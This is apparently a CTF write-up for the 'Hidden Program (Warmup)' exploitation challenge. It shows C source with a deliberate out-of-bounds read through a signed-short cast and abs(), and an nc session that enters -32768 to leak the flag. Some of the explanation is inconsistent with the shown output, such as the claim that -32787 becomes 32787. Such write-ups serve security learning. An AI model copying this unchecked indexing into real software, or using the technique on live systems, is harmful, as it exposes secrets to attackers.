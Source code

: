 # **Hidden Program (Warmup)**

#### tag : exploitation

----------------------------------------------------------------------

#### Description

>None

----------------------------------------------------------------------

#### Challenge

~~~

#include <stdio.h>
#include <limits.h>
#include <string.h>

typedef struct
{
    char flag[SHRT_MAX+1];
    char in[SHRT_MAX+1];
    char sub[SHRT_MAX+1];
    int n;
} player;

player p1;

void main()
{    
    FILE *fp = fopen("/home/hidden-program/flag","r");
    memset(p1.flag,0,sizeof(p1.flag));
    fscanf(fp,"%[^\n]",p1.flag);
    fclose(fp);
    while(1)
    {
        printf("Insert a short integer: ");
        fflush(stdout);
        scanf(" %d", &p1.n);
        if(p1.n>SHRT_MAX)
            printf("Invalid number\n\n");
        else break;
    }
    p1.n = (short)abs((short)p1.n);
    printf("Insert a string: ");
    fflush(stdout);
    scanf("%10000s",p1.in);
    printf("Insert another string: ");
    fflush(stdout);
    scanf("%10000s",p1.sub);
    if(strcmp(&p1.in[p1.n],p1.sub)==0) printf("Congratulations!! YOU WIN!!\n");
    else
        printf("\tYou lost!!!\n\
        In the string %s the substring in the position %d is %s\n\
        Try again...\n", p1.in, p1.n, &p1.in[p1.n]);
    fflush(stdout);
}

~~~

I can download zip file from link and get one cpp code.

~~~

typedef struct
{
    char flag[SHRT_MAX+1];
    char in[SHRT_MAX+1];
    char sub[SHRT_MAX+1];
    int n;
} player;

~~~

~~~

FILE *fp = fopen("/home/hidden-program/flag","r");
memset(p1.flag,0,sizeof(p1.flag));
fscanf(fp,"%[^\n]",p1.flag);
fclose(fp);

~~~

Flag is allocated in p1.flag.

~~~

printf("\tYou lost!!!\n\
In the string %s the substring in the position %d is %s\n\
Try again...\n", p1.in, p1.n, &p1.in[p1.n])

~~~

And I can refer p1.flag by &p1.in[p1.n].

In this case, if p1.n is 32768 which is SHRT_MAX+1, &p1.in[p1.n] is eqaul to p1.flag.

~~~

while(1)
{
    printf("Insert a short integer: ");
    fflush(stdout);
    scanf(" %d", &p1.n);
    if(p1.n>SHRT_MAX)
        printf("Invalid number\n\n");
    else break;
}
p1.n = (short)abs((short)p1.n);

~~~

Because of checking in while, I can't put number upper than 32767 to p1.n. But end of while, abs(p1.n) make p1.n is positive number. So if I put the number -32787 to p1.n, it'll be 32787.

----------------------------------------------------------------------

#### Solution

~~~

epist@epist-machine:~$ nc 200.136.213.126 1988
Insert a short integer: -32768
Insert a string: a
Insert another string: a
	You lost!!!
        In the string a the substring in the position -32768 is CTF-BR{Th1s_1S_4_50_5Imp13_C_exp1017_}
        Try again...

~~~

**CTF-BR{Th1s_1S_4_50_5Imp13_C_exp1017_}**
